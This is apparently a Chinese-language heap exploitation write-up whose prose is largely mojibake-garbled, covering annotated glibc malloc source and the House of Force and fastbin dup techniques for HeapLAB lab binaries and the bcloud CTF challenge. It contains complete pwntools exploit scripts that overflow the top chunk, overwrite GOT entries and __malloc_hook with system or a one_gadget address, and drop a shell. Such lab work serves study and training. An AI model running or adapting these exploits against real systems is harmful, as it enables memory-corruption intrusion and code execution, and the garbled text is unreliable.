size += nextsize;
set_head(p, size | PREV_INUSE);
av->top = p;
check_chunk(av, p);
}
/*
If freeing a large space, consolidate possibly-surrounding
chunks. Then, if the total unused topmost memory exceeds trim
threshold, ask malloc_trim to reduce top.
Unless max_fast is 0, we don't know if there are fastbins
bordering top, so we cannot tell for sure whether threshold
has been reached unless fastbins are consolidated. But we
don't want to consolidate on each free. As a compromise,
consolidation is performed if FASTBIN_CONSOLIDATION_THRESHOLD
is reached.
*/
// å¦‚æœ size å¤§äº FASTBIN_CONSOLIDATION_THRESHOLD
if ((unsigned long) (size) >= FASTBIN_CONSOLIDATION_THRESHOLD) {
// å¦‚æœ fastbin ä¸æœ‰ç©ºé—²çš„ chunk
if (atomic_load_relaxed(&av->have_fastchunks))
// è§¦å‘ malloc_consolidate
malloc_consolidate(av);
// 如æœæ¤æ—¶çš„ arena 为 main_arena
if (av == &main_arena) {
#ifndef MORECORE_CANNOT_TRIM
// å¦‚æœ top_chunk çš„ size å¤§äº heap的收缩阈值
if ((unsigned long) (chunksize(av->top)) >=
(unsigned long) (mp_.trim_threshold))
systrim(mp_.top_pad, av);
#endif
} else {
/* Always try heap_trim(), even if the top chunk is not
large, because the corresponding heap might go away. */
// 收缩é主分é…区
heap_info *heap = heap_for_ptr(top(av));
assert(heap->ar_ptr == av);
heap_trim(heap, mp_.top_pad);
}
}
if (!have_lock)
__libc_lock_unlock(av->mutex);
}
/*
If the chunk was allocated via mmap, release via munmap().
*/
// 该 chunk 是 mmap 分é…çš„
else {
munmap_chunk(p);
}
}
/*
systrim is an inverse of sorts to sysmalloc. It gives memory back
to the system (via negative arguments to sbrk) if there is unused
memory at the `high' end of the malloc pool. It is called
automatically by free() when top space exceeds the trim
threshold. It is also called by the public malloc_trim routine. It
returns 1 if it actually released any memory, else 0.
*/
static int systrim(size_t pad, mstate av) {
long top_size; /* Amount of top-most memory */
long extra; /* Amount to release */
long released; /* Amount actually released */
char *current_brk; /* address returned by pre-check sbrk call */
char *new_brk; /* address returned by post-check sbrk call */
size_t pagesize;
long top_area;
pagesize = GLRO(dl_pagesize);
top_size = chunksize (av->top);
top_area = top_size - MINSIZE -1;
if (top_area <= pad)
return 0;
/* Release in pagesize units and round down to the nearest page. */
extra = ALIGN_DOWN(top_area - pad, pagesize);
if (extra == 0)
return 0;
/*
Only proceed if end of memory is where we last set it.
This avoids problems if there were foreign sbrk calls.
*/
current_brk = (char *) (MORECORE(0));
if (current_brk == (char *) (av->top) + top_size) {
/*
Attempt to release memory. We ignore MORECORE return value,
and instead call again to find out where new end of memory is.
This avoids problems if first call releases less than we asked,
of if failure somehow altered brk value. (We could still
encounter problems if it altered brk in some very bad way,
but the only thing we can do is adjust anyway, which will cause
some downstream failure.)
*/
MORECORE(-extra);
/* Call the `morecore' hook if necessary. */
void (*hook)(void) = atomic_forced_read(__after_morecore_hook);
if (__builtin_expect(hook != NULL, 0))
(*hook)();
new_brk = (char *) (MORECORE(0));
LIBC_PROBE(memory_sbrk_less, 2, new_brk, extra);
if (new_brk != (char *) MORECORE_FAILURE) {
released = (long) (current_brk - new_brk);
if (released != 0) {
/* Success. Adjust top. */
av->system_mem -= released;
set_head (av->top, (top_size - released) | PREV_INUSE);
check_malloc_state (av);
return 1;
}
}
}
return 0;
}
static void munmap_chunk(mchunkptr p) {
INTERNAL_SIZE_T size = chunksize (p);
assert(chunk_is_mmapped (p));
/* Do nothing if the chunk is a faked mmapped chunk in the dumped
main arena. We never free this memory. */
if (DUMPED_MAIN_ARENA_CHUNK (p))
return;
uintptr_t block = (uintptr_t) p - prev_size (p);
size_t total_size = prev_size (p) + size;
/* Unfortunately we have to do the compilers job by hand here. Normally
we would test BLOCK and TOTAL-SIZE separately for compliance with the
page size. But gcc does not recognize the optimization possibility
(in the moment at least) so we combine the two values into one before
the bit test. */
if (__builtin_expect(((block | total_size) & (GLRO(dl_pagesize) - 1)) != 0, 0))
malloc_printerr("munmap_chunk(): invalid pointer");
atomic_decrement(&mp_.n_mmaps);
atomic_add(&mp_.mmapped_mem, -total_size);
/* If munmap failed the process virtual memory address space is in a
bad shape. Just leave the block hanging around, the process will
terminate shortly anyway since not much can be done. */
__munmap((char *) block, total_size);
}
/*
------------------------- malloc_consolidate -------------------------
malloc_consolidate is a specialized version of free() that tears
down chunks held in fastbins. Free itself cannot be used for this
purpose since, among other things, it might place chunks back onto
fastbins. So, instead, we need to use a minor variant of the same
code.
*/
static void malloc_consolidate(mstate av) {
mfastbinptr *fb; /* current fastbin being consolidated */
mfastbinptr *maxfb; /* last fastbin (for loop control) */
mchunkptr p; /* current chunk being consolidated */
mchunkptr nextp; /* next chunk to consolidate */
mchunkptr unsorted_bin; /* bin header */
mchunkptr first_unsorted; /* chunk to link to */
/* These have same use as in free() */
mchunkptr nextchunk;
INTERNAL_SIZE_T size;
INTERNAL_SIZE_T nextsize;
INTERNAL_SIZE_T prevsize;
int nextinuse;
mchunkptr bck;
mchunkptr fwd;
// 清除 have_fastchunks æ ‡å¿—ä½
atomic_store_relaxed(&av->have_fastchunks, false);
// 拿到 unsorted_bin
unsorted_bin = unsorted_chunks(av);
/*
Remove each chunk from fast bin and consolidate it, placing it
then in unsorted bin. Among other reasons for doing this,
placing in unsorted bin avoids needing to calculate actual bins
until malloc is sure that chunks aren't immediately going to be
reused anyway.
*/
// 拿到最大的 fastbin entry 地å€
maxfb = &fastbin (av, NFASTBINS - 1);
// 拿到最å°çš„ fastbin entry 地å€
fb = &fastbin (av, 0);
do {
// æ›¿æ¢ p 的值为 fb
p = atomic_exchange_acq(fb, NULL);
// å¦‚æœ p ä¸ä¸º null
if (p != 0) {
do {
{
// æ ¹æ® size 拿到对应的 fastbin 索引
unsigned int idx = fastbin_index (chunksize(p));
// 如æœä¸åŒ¹é…
if ((&fastbin (av, idx)) != fb)
malloc_printerr("malloc_consolidate(): invalid chunk size");
}
// 啥也没干
check_inuse_chunk(av, p);
// 拿到下一个元ç´
nextp = p->fd;
/* Slightly streamlined version of consolidation code in free() */
// 拿到size
size = chunksize (p);
// 拿到下一个 chunk （物ç†æ„义）
nextchunk = chunk_at_offset(p, size);
// 拿到下一个 chunk （物ç†æ„义）的 size
nextsize = chunksize(nextchunk);
// 如æœå‰ä¸€ä¸ª chunk 为释放状æ€
if (!prev_inuse(p)) {
prevsize = prev_size (p);
size += prevsize;
p = chunk_at_offset(p, -((long) prevsize));
unlink(av, p, bck, fwd);
}
// 如æœä¸‹ä¸€ä¸ª ä¸æ˜¯ top_chunk
if (nextchunk != av->top) {
nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
if (!nextinuse) {
size += nextsize;
unlink(av, nextchunk, bck, fwd);
} else
clear_inuse_bit_at_offset(nextchunk, 0);
// 拿到 unsorted_bin 的第一个元ç´
first_unsorted = unsorted_bin->fd;
// 进行链æ¥
unsorted_bin->fd = p;
first_unsorted->bk = p;
if (!in_smallbin_range (size)) {
p->fd_nextsize = NULL;
p->bk_nextsize = NULL;
}
set_head(p, size | PREV_INUSE);
p->bk = unsorted_bin;
p->fd = first_unsorted;
set_foot(p, size);
}
// 下一个 chunk 是 top_chunk
else {
size += nextsize;
set_head(p, size | PREV_INUSE);
av->top = p;
}
} while ((p = nextp) != 0);
}
// éå†
} while (fb++ != maxfb);
}




用一个较大的值æ¥é‡å†™top_chunk的大å°å—段，然å请求足够的内å˜æ¥å¼¥è¡¥é¡¶å—å’Œç›®æ ‡æ•°æ®ä¹‹é—´çš„å·®è· ã€‚ä»¥è¿™ç§æ–¹å¼è¿›è¡Œçš„分é…å¯ä»¥ç¯ç»•VA空间，使得这ç§æŠ€æœ¯å¯ä»¥ä»¥æ¯”å †æ›´ä½çš„地å€ä¸ºç›®æ ‡åœ°å€ã€‚
在GLIBC版本<2.29ä¸ï¼Œtop chunk 大å°å—段在分é…期间ä¸å—任何完整性检查。如æœä¸€ä¸ªtop chunkå¤§å° çš„å—段被覆盖，例如溢出并被替æ¢æˆä¸€ä¸ªå¤§çš„值，那么ä»è¯¥top chunkçš„åç»åˆ†é…å¯èƒ½ä¼šä¸ä½¿ç”¨ä¸çš„内å˜é‡å 。在GLIBC<2.30的版本ä¸ï¼Œä»ä¸€ä¸ªè¢«ç ´åçš„top chunkä¸åˆ†é…çš„é常大的内å˜å¯ä»¥ç¯ç»•VA空间。
例如，一个top chunk ä»åœ°å€0x405000开始，驻留在程åºæ•°æ®éƒ¨åˆ†çš„地å€0x404000çš„ç›®æ ‡æ•°æ®å¿…须被覆盖。使用溢出覆盖顶top chunk 大å°å—段，将其替æ¢ä¸º0xffffffffffffff1的值。æ¥ä¸‹æ¥ï¼Œè®¡ç®—å°†top chunk ç§»åŠ¨åˆ°ç›®æ ‡ä¹‹å‰çš„地å€æ‰€éœ€çš„å—节数。总数是0xffffffffffffffffff-0x405000å—节，以达到VA空间的末端，然å是0x404000-0x20个å—èŠ‚ï¼Œä»¥åœ¨ç›®æ ‡åœ°å€ä¹‹å‰åœæ¢ã€‚
在这个请求top chunk得到æœåŠ¡å，下一个申请的å—å°†ä¸ç›®æ ‡æ•°æ®é‡å 。
GLIBC 2.29版引入了顶部å—大å°å—段的åˆç†æ€§æ£€æŸ¥ã€‚link

GLIBC 2.30版引入了最大分é…大å°æ£€æŸ¥ï¼Œå®ƒé™åˆ¶äº† house of forceâ€å¯ä»¥å¼¥è¡¥çš„å·®è·å¤§å°ã€‚link

文件详è§é™„件 house_of_force
┌──(fanya㉿ferity)-[~/…/heap/heaplab/part1/house_of_force]
└─$ checksec house_of_force
[*] '/home/fanya/Desktop/heap/heaplab/part1/house_of_force/house_of_force'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
RUNPATH: '../.glibc/glibc_2.28_no-tcache'
程åºåœ¨è¿è¡Œæ—¶å·²ç»™å‡ºlibc地å€åŠheap地å€ã€‚
在read(0, m_array[index++], v5 + 8);ä¸æ˜æ˜¾çš„溢出8个å—节。
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
unsigned __int64 num; // rax
unsigned __int64 v4; // rax
size_t v5; // rax
unsigned int index; // [rsp+14h] [rbp-3Ch]
char *m; // [rsp+18h] [rbp-38h]
char *m_array[4]; // [rsp+20h] [rbp-30h] BYREF
unsigned __int64 v9; // [rsp+48h] [rbp-8h]
v9 = __readfsqword(0x28u);
setvbuf(stdout, 0LL, 2, 0LL);
puts("\n===============");
puts("| HeapLAB | House of Force");
puts("===============\n");
printf("puts() @ %p\n", &puts);
m = (char *)malloc(0x88uLL);
printf("heap @ %p\n", m - 16);
free(m);
memset(m_array, 0, sizeof(m_array));
index = 0;
while ( 1 )
{
while ( 1 )
{
printf("\n1) malloc %u/%u\n", index, 4LL);
puts("2) target");
puts("3) quit");
printf("> ");
num = read_num();
if ( num != 2 )
break;
printf("\ntarget: %s\n", target);
}
if ( num == 3 )
break;
if ( num == 1 )
{
if ( index > 3 )
{
puts("maximum requests reached");
}
else
{
printf("size: ");
v4 = read_num();
m_array[index] = (char *)malloc(v4);
if ( m_array[index] )
{
printf("data: ");
v5 = malloc_usable_size(m_array[index]);
read(0, m_array[index++], v5 + 8);
}
else
{
puts("request failed");
}
}
}
}
exit(0);
}
使用8å—节溢出修改top_chunkçš„size为0xffffffffffffffff
malloc(24, b"Y"*24 + p64(0xffffffffffffffff))

计算ä¸ç›®æ ‡åœ°å€çš„地å€
# Calculate the "wraparound" distance between two addresses.
def delta(x, y):
return (0xffffffffffffffff - x) + y
distance = delta(heap + 0x20, elf.sym.target - 0x20)
# heap -> heap addr 0x20 ->first chunk size
distance = (libc.sym.__malloc_hook - 0x20) - (heap + 0x20)
创建chunk，达到任æ„地å€å†™
modify_target
~~~python
malloc(distance, b"a")
malloc(24, b'aaaaaaa')
~~~

drop shell
malloc(distance, b"/bin/sh")
malloc(24, p64(libc.sym.system))
cmd = heap + 0x30
malloc(cmd, b'')

文件详è§é™„件 bcloud

将程åºæ‰“完注释å为bcloud.idb
在my_input函数ä¸åœ¨æœ«å°¾ a2 çš„ä½ç½®åŠ 入一个\x00, 而在name_initä¸s本为64的大å°ï¼Œmy_input也是64，但会在65çš„ä½ç½®åŠ 一个\x00, 但是由äºåé¢çš„v2赋值的æ“作，将\x00覆盖为了别的值，而且会在åé¢çš„some_output泄露出v2çš„å †åœ°å€ã€‚ç”±äºå—符串的结æŸæ ‡å¿—为\x00，所以strcpy å’Œ puts 函数都会对这个v2çš„å †åœ°å€è¿›è¡Œæ“作。
int __cdecl my_input(int a1, int a2, char a3)
{
char buf; // [esp+1Bh] [ebp-Dh] BYREF
int i; // [esp+1Ch] [ebp-Ch]
for ( i = 0; i < a2; ++i )
{
if ( read(0, &buf, 1u) <= 0 )
exit(-1);
if ( buf == a3 )
break;
*(_BYTE *)(a1 + i) = buf;
}
*(_BYTE *)(i + a1) = 0;
return i;
}
unsigned int name_init()
{
char s[64]; // [esp+1Ch] [ebp-5Ch] BYREF
char *v2; // [esp+5Ch] [ebp-1Ch]
unsigned int v3; // [esp+6Ch] [ebp-Ch]
v3 = __readgsdword(0x14u);
memset(s, 0, 0x50u);
puts("Input your name:");
my_input((int)s, 64, '\n');
v2 = (char *)malloc(0x40u);
name_chunk_0x40 = (int)v2;
strcpy(v2, s);
some_output(v2); // ä¿¡æ¯æ³„露
return __readgsdword(0x14u) ^ v3;
}
int __cdecl some_output(const char *a1)
{
printf("Hey %s! Welcome to BCTF CLOUD NOTE MANAGE SYSTEM!\n", a1);
return puts("Now let's set synchronization options.");
}
在åé¢çš„org_host_init函数ä¸å¯¹äºorgåŠhostçš„åˆå§‹åŒ–也åƒä¸Šè¿°ä¸€æ ·ï¼Œæˆ‘们注æ„到strcpy在给org赋值的时候会将orgå—符串ã€orgè¿”å›åœ°å€ä»¥åŠhostå—符串全部赋给org，ä»è€Œé€ æˆå †æº¢å‡ºæ„é€ æˆ‘ä»¬ä½¿ç”¨house of forceçš„æ¡ä»¶ã€‚
unsigned int org_host_init()
{
char org_chunk_con[64]; // [esp+1Ch] [ebp-9Ch] BYREF
char *org_chunk; // [esp+5Ch] [ebp-5Ch]
char host_chunk_con[68]; // [esp+60h] [ebp-58h] BYREF
char *host_chunk; // [esp+A4h] [ebp-14h]
unsigned int v5; // [esp+ACh] [ebp-Ch]
v5 = __readgsdword(0x14u);
memset(org_chunk_con, 0, 0x90u);
puts("Org:");
my_input((int)org_chunk_con, 64, 10);
puts("Host:");
my_input((int)host_chunk_con, 64, 10);
host_chunk = (char *)malloc(0x40u);
org_chunk = (char *)malloc(0x40u);
org_chunk_addr = (int)org_chunk;
host_chunk_addr = (int)host_chunk;
strcpy(host_chunk, host_chunk_con);
strcpy(org_chunk, org_chunk_con); // <---
puts("OKay! Enjoy:)");
return __readgsdword(0x14u) ^ v5;
}
在åç»çš„new_noteã€show_note ã€edit_note〠del_note便为常规æ“作，值得注æ„的是程åºæœ€å¤šåˆ›å»º10个node，将其地å€å’Œå¤§å°åˆ†åˆ«å‚¨å˜åœ¨node_listå’Œnode_size_listä¸ï¼Œä»è€Œæ–¹ä¾¿æˆ‘们使用edit_note的时候修改æŸäº›å€¼ã€‚
free@got.plt 为 puts@got.pltï¼Œæ³„æ¼ libcatoi@got.plt 为 system@got.plt，得到 shell使用name的输入 -》 æ³„éœ²å †åœ°å€
# leak the heap addr
# dbg()
io.sendafter("name:\n", b'A'*0x40)
heap = u32(io.recvuntil(b"! Welcome to BCTF", drop=True)[-4:])
log.info(f"heap_addr -> {hex(heap)}")

利用org和host的输入 -》 修改top chunk的size为-1
# overflow
io.sendafter("Org:\n", "A" * 0x40)
io.sendlineafter("Host:\n", p32(0xffffffff))
# dbg()

计算hack_chunk çš„å¤§å° å°†top_chunk移动至bss段
0x804b0a0 -> note_size_list
new((0x804b0a0 - 0x10) - (heap + 0xd0), b'AAAA')
新建一个chunk 覆盖note_list 数组，并修改其内容
payload = b'A'*0x80
payload += p32(elf.got.free) # note[0]
payload += p32(elf.got.atoi) * 2 # note[1] note[2]
new(0x8c, payload)
# dbg()

修改free_got 为 puts_got 泄露libc地å€
# free@got.plt -> puts@plt
edit(0, p32(elf.plt.puts))
dele(1)
atoi_addr = u32(io.recvn(4))
io.recv()
libc.address = atoi_addr - libc.sym.atoi
log.info(f"libc addr -> {hex(libc.address)}")

修改 atoi_got 为 system_got， è·å¾—shell
system_addr = libc.sym.system
log.info(f"system addr -> {hex(libc.sym.system)}")
# dbg()
io.sendline('\n')
edit(2, p32(system_addr))
io.sendlineafter(b'option--->>\n', b'/bin/sh\x00')
io.interactive()

#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./bcloud')
libc = elf.libc
context.log_level = 'debug'
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
io = start()
def new(length, context):
io.sendlineafter("option--->>\n", b'1')
io.sendlineafter("note content:\n", str(length))
io.sendlineafter("content:\n", context)
def edit(idx, context):
io.sendlineafter("option--->>\n", b'3')
io.sendline(str(idx))
io.sendlineafter("content:\n", context)
def dele(idx):
io.sendlineafter("option--->>\n", b'4')
io.sendlineafter("id:\n", str(idx))
def dbg():
gdb.attach(io)
pause()
# leak the heap addr
# dbg()
io.sendafter("name:\n", b'A'*0x40)
heap = u32(io.recvuntil(b"! Welcome to BCTF", drop=True)[-4:])
log.info(f"heap_addr -> {hex(heap)}")
# overflow
io.sendafter("Org:\n", "A" * 0x40)
io.sendlineafter("Host:\n", p32(0xffffffff))
# dbg()
new((0x804b0a0 - 0x10) - (heap + 0xd0), b'AAAA')
# new((0xffffffff - (heap + 0xd0) + (0x804b0a0 - 0x10)), b'aaaa')
# dbg()
# new(0x40, b"a"*0x40)
payload = b'A'*0x80
payload += p32(elf.got.free) # note[0]
payload += p32(elf.got.atoi) * 2 # note[1] note[2]
new(0x8c, payload)
# dbg()
# free@got.plt -> puts@plt
edit(0, p32(elf.plt.puts))
dele(1)
atoi_addr = u32(io.recvn(4))
io.recv()
libc.address = atoi_addr - libc.sym.atoi
log.info(f"libc addr -> {hex(libc.address)}")
system_addr = libc.sym.system
log.info(f"system addr -> {hex(libc.sym.system)}")
# dbg()
io.sendline('\n')
edit(2, p32(system_addr))
io.sendlineafter(b'option--->>\n', b'/bin/sh\x00')
io.interactive()
利用double-free错误，强制mallocè¿”å›ä¸€ä¸ªchunk两次，ä¸é—´ä¸é‡Šæ”¾å®ƒã€‚è¿™ç§æŠ€æœ¯é€šå¸¸æ˜¯é€šè¿‡ç ´åfastbin元数æ®ï¼Œå°†ä¸€ä¸ªå‡çš„å—链æ¥åˆ°fastbinä¸æ¥åˆ©ç”¨çš„。这个å‡å—å¯ä»¥è¢«åˆ†é…，然å程åºåŠŸèƒ½å¯ä»¥è¢«ç”¨æ¥è¯»å–或写入一个任æ„的内å˜ä½ç½®ã€‚
fastbinä¸double free检查åªç¡®ä¿è¢«é‡Šæ”¾åˆ°fastbinä¸çš„å—ä¸æ˜¯è¯¥binä¸çš„第一个å—(链表头部的å—ã€åˆšåˆšé‡Šæ”¾çš„å—)，如æœåœ¨ä¸¤ä¸ªbin之间释放了一个相åŒå¤§å°çš„ä¸åŒå—，则检查通过。
æ£å¸¸æƒ…况:

double free:

/* Atomically link P to its fastbin: P->FD = *FB; *FB = P; */
mchunkptr old = *fb, old2;
unsigned int old_idx = ~0u;
do {
/* Check that the top of the bin is not the record we are going to add
(i.e., double free). */
if (__builtin_expect(old == p, 0)) {
errstr = "double free or corruption (fasttop)";
goto errout;
}
/* Check that size of fastbin chunk at the top is the same as
size of the chunk that we are adding. We can dereference OLD
only if we have the lock, otherwise it might have already been
deallocated. See use of OLD_IDX below for the actual check. */
if (have_lock && old != NULL)
old_idx = fastbin_index(chunksize(old));
p->fd = old2 = old;
} while ((old = catomic_compare_and_exchange_val_rel(fb, p, old2)) != old2);
if (have_lock && old != NULL && __builtin_expect(old_idx != idx, 0)) {
errstr = "invalid fastbin entry (free)";
goto errout;
}
绕过 double free:

除æ¤ä¹‹å¤–，在释放时还会检查当å‰å—çš„size域ä¸å¤´éƒ¨åŸŸæ˜¯å¦ç›¸ç‰ï¼Œç”±äºæˆ‘们释放的是åŒä¸€ä¸ªå—，也就ä¸å˜åœ¨è¯¥é—®é¢˜ã€‚
将一个å—二次释放å，我们继ç»malloc一个相åŒå¤§å°çš„å—，æ¤æ—¶mallocå°†ä»fastbinä¸åˆ›å»ºå—，而ä¸æ˜¯åœ¨top chunkä¸åˆ›å»ºã€‚æ¤æ—¶æˆ‘们往这个å—ä¸å¡«å†™æ•°æ®å°±æ„味ç€æˆ‘们æ£åœ¨ä¿®æ”¹è¿™ä¸ªå—çš„fd指针，将其修改为一个我们想è¦çš„值å³å¯ã€‚

但是æ¤è¿‡ç¨‹ä¸ä¹Ÿå˜åœ¨ç€ä¸€ä¸ªå¯¹size域的检查æªæ–½ï¼Œå› æ¤æˆ‘们常常使用__malloc_hookå‰35å—节所出ç°çš„一个0x7f的大å°å—段，然åå°†__malloc_hook修改为one_gadget。所需è¦æ³¨æ„的是å‡å°ºå¯¸å—段ä¸ä¸å…¼å®¹çš„æ ‡å¿—ï¼Œä¸€ä¸ªè®¾ç½®çš„NON_MAIN_ARENAæ ‡å¿—å’Œä¸€ä¸ªæ¸…é™¤çš„ CHUNK_IS_MMAPPEDæ ‡å¿—ä¼šå¯¼è‡´ä¸€ä¸ªsegfaultã€‚èƒ½å¤Ÿè¿™æ ·åšçš„åŸå› 是，分é…æ—¢ä¸å—对é½æ£€æŸ¥ï¼Œä¹Ÿä¸å—æ ‡å¿—æŸå检查

/*
If the size qualifies as a fastbin, first check corresponding bin.
This code is safe to execute even if av is not yet initialized, so we
can try it without checking, which saves some time on this fast path.
*/
if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ())) {
idx = fastbin_index (nb);
mfastbinptr *fb = &fastbin (av, idx);
mchunkptr pp = *fb;
do {
victim = pp;
if (victim == NULL)
break;
} while ((pp = catomic_compare_and_exchange_val_acq(fb, victim->fd, victim))
!= victim);
if (victim != 0) {
if (__builtin_expect(fastbin_index (chunksize(victim)) != idx, 0)) {
errstr = "malloc(): memory corruption (fast)";
errout:
malloc_printerr(check_action, errstr, chunk2mem (victim), av);
return NULL;
}
check_remalloced_chunk (av, victim, nb);
void *p = chunk2mem (victim);
alloc_perturb(p, bytes);
return p;
}
}
文件详è§é™„件 fastbin_dup
┌──(fanya㉿ferity)-[~/…/heap/heaplab/part1/fastbin_dup]
└─$ checksec fastbin_dup
[*] '/home/fanya/Desktop/heap/heaplab/part1/fastbin_dup/fastbin_dup'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
RUNPATH: '../.glibc/glibc_2.30_no-tcache'
在程åºè¿è¡Œæ—¶ç»™å‡ºäº†libc的地å€ï¼Œå¹¶æœªé˜»æ¢double freeçš„æ“作。
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
unsigned __int64 num; // rax
unsigned int index; // [rsp+14h] [rbp-4Ch]
size_t n; // [rsp+18h] [rbp-48h]
unsigned __int64 na; // [rsp+18h] [rbp-48h]
char *m_array[7]; // [rsp+20h] [rbp-40h] BYREF
unsigned __int64 v8; // [rsp+58h] [rbp-8h]
v8 = __readfsqword(0x28u);
setvbuf(stdout, 0LL, 2, 0LL);
puts("\n===============");
puts("| HeapLAB | Fastbin Dup");
puts("===============\n");
printf("puts() @ %p\n", &puts);
memset(m_array, 0, sizeof(m_array));
index = 0;
printf("\nEnter your username: ");
read(0, &user_0, 0x10uLL);
while ( 1 )
{
while ( 1 )
{
printf("\n1) malloc %u/%u\n", index, 7LL);
puts("2) free");
puts("3) target");
puts("4) quit");
printf("> ");
num = read_num();
if ( num != 2 )
break;
printf("index: ");
na = read_num();
if ( na >= index )
puts("invalid index");
else
free(m_array[na]);
}
if ( num > 2 )
{
if ( num == 3 )
{
printf("\ntarget: %s\n", user_0.target);
}
else if ( num == 4 )
{
exit(0);
}
}
else if ( num == 1 )
{
if ( index > 6 )
{
puts("maximum requests reached");
}
else
{
printf("size: ");
n = read_num();
if ( n > 0x78 )
{
puts("fast chunks only (120 bytes maximum)");
}
else
{
m_array[index] = (char *)malloc(n);
if ( m_array[index] )
{
printf("data: ");
read(0, m_array[index++], n);
}
else
{
puts("request failed");
}
}
}
}
}
}
pwndbg> ptype user
type = struct user {
char username[16];
char target[16];
}
00000000 user struc ; (sizeof=0x20, copyof_13) ; XREF: .data:user_0/r
00000000 username db 16 dup(?)
00000010 target db 16 dup(?)
00000020 user ends
00000020
fastbin dup
# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)

修改fd指针
# modify fd
chunk_1 = malloc(0x28, p64(elf.sym.user))

malloc twice
# malloc_twice
malloc(0x28, b"1")
malloc(0x28, b"2")

malloc fake chunk
# malloc the fake chunk
malloc(0x28, b"win !")
但æ¤æ—¶ç”±äºæˆ‘们之å‰å¹¶æ²¡æœ‰è®¾ç½®è™šå‡çš„sizeå—段，所以会出ç°ä¸€ä¸ªä¸æ–。如æœæˆ‘们设置了那个虚å‡çš„å—段，便修改完æˆ

success

#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("fastbin_dup")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
# Index of allocated chunks.
index = 0
# Select the "malloc" option; send size & data.
# Returns chunk index.
def malloc(size, data):
global index
io.send(b"1")
io.sendafter(b"size: ", f"{size}".encode())
io.sendafter(b"data: ", data)
io.recvuntil(b"> ")
index += 1
return index - 1
# Select the "free" option; send index.
def free(index):
io.send(b"2")
io.sendafter(b"index: ", f"{index}".encode())
io.recvuntil(b"> ")
io = start()
# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1
# =============================================================================
# Set the username field.
username = p64(0) + p64(0x31)
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")
# Request two 0x30-sized chunks and fill them with data.
chunk_A = malloc(0x28, b"A"*0x28)
chunk_B = malloc(0x28, b"B"*0x28)
# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)
# modify fd
chunk_1 = malloc(0x28, p64(elf.sym.user))
# malloc_twice
malloc(0x28, b"1")
malloc(0x28, b"2")
# malloc the fake chunk
malloc(0x28, b"win !")
# =============================================================================
io.interactive()
虚å‡å—段的大å°ä¸º0x7f -> æ„味ç€æˆ‘们è¦ç”³è¯·0x68çš„chunk。然åfastbin dup 将其fd修改至__malloc_hook - 35 çš„ä½ç½®ã€‚
# Request two 0x30-sized chunks and fill them with data.
chunk_A = malloc(0x68, b"A"*0x28)
chunk_B = malloc(0x68, b"B"*0x28)
# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)
# modify fd
malloc(0x68, p64(libc.sym.__malloc_hook - 35))
å¡«å……0x13çš„åƒåœ¾æ•°æ®ï¼Œæ¥ç€å¡«å…¥one_gadget的地å€ã€‚
# malloc twice
malloc(0x68, b'0')
malloc(0x68, b'1')
# malloc fake chunk
# if no limit malloc's count
# malloc(0x68, p8(0)*0x13+p64(libc.sym.system))
# sh_addr = p64(next(libc.search(b'/bin/sh\x00')))
# malloc(sh_addr, b"")
one = [0xc4dbf, 0xc4de6, 0xe1fa1]
malloc(0x68, p8(0)*0x13+p64(libc.address + one[2]))
malloc(0x10, b'')
drop shell

#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("fastbin_dup")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
# Index of allocated chunks.
index = 0
# Select the "malloc" option; send size & data.
# Returns chunk index.
def malloc(size, data):
global index
io.send(b"1")
io.sendafter(b"size: ", f"{size}".encode())
io.sendafter(b"data: ", data)
io.recvuntil(b"> ")
index += 1
return index - 1
# Select the "free" option; send index.
def free(index):
io.send(b"2")
io.sendafter(b"index: ", f"{index}".encode())
io.recvuntil(b"> ")
io = start()
# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1
# =============================================================================
# =-=-=- EXAMPLE -=-=-=
# Set the username field.
username = b"ferity-fan"
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")
# Request two 0x30-sized chunks and fill them with data.
chunk_A = malloc(0x68, b"A"*0x28)
chunk_B = malloc(0x68, b"B"*0x28)
# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)
# modify fd
malloc(0x68, p64(libc.sym.__malloc_hook - 35))
# malloc twice
malloc(0x68, b'0')
malloc(0x68, b'1')
# malloc fake chunk
# if no limit malloc's count
# malloc(0x68, p8(0)*0x13+p64(libc.sym.system))
# sh_addr = p64(next(libc.search(b'/bin/sh\x00')))
# malloc(sh_addr, b"")
one = [0xc4dbf, 0xc4de6, 0xe1fa1]
malloc(0x68, p8(0)*0x13+p64(libc.address + one[2]))
malloc(0x10, b'')
# =============================================================================
io.interactive()
文件详è§é™„件 fastbin_dup_2
┌──(fanya㉿ferity)-[~/…/heap/heaplab/part1/challenge-fastbin_dup]
└─$ checksec fastbin_dup_2
[*] '/home/fanya/Desktop/heap/heaplab/part1/challenge-fastbin_dup/fastbin_dup_2'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
RUNPATH: '../.glibc/glibc_2.30_no-tcache'
